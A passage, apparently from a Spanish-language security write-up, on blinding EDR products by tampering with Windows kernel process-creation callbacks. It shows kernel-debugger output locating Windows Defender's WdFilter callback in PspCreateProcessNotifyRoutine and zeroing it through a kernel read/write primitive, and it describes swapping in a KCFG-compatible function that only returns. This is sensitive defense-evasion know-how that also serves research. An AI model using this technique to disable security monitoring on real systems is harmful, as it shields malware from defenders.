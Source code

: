 Y ahora podemos acceder a las entradas de la matriz de devolución de llamada de la siguiente manera:

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f ffff800e`5c7f725f
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
</pre>

Cada una de estas entradas es un callback registrado por un driver EDR sys, tomemos la segunda entrada como ejemplo <mark>ffff800e`5c7f725f</mark>

Primero tenemos que eliminar el último byte y anularlo (Los últimos 4 bits de estas direcciones de puntero son insignificantes), para acceder a la estructura de entrada de callback.

<pre>
lkd> ? (ffff800e`5c7f725f >> 4) << 4
Evaluate expression: -140675806956976 = ffff800e`5c7f725<mark>0</mark>
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark>fffff807`252e9b70</mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L3
<mark>WdFilter!MpCreateProcessNotifyRoutineEx:</mark>
fffff807`252e9b70 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff807`252e9b75 48894c2408      mov     qword ptr [rsp+8],rcx
fffff807`252e9b7a 55              push    rbp
</pre>

La segunda entrada que es <mark>fffff807`252e9b70</mark> es una de las funciones que seran llamadas cuando se cree un proceso (WdFilter driver esta relacionado con windows defender). y esta es solo una de las entradas callback.

Así que en el proyecto original de cheeckyblinder lo que hizo fue anular toda la entrada en la tabla de callback que es esta <mark>ffff800e`5c7f725f</mark>, así que usando un exploit de kernel primitivo R/W podemos anular la entrada, y así es como queda la tabla de callback después de anularla.

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f <mark>00000000`00000000</mark>
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
</pre>

pero lo que hice fue, en lugar de anular toda la entrada, cambié la función en la matriz de devolución de llamada a otra que sólo devuelve, pero tiene que ser compatible con KCFG.

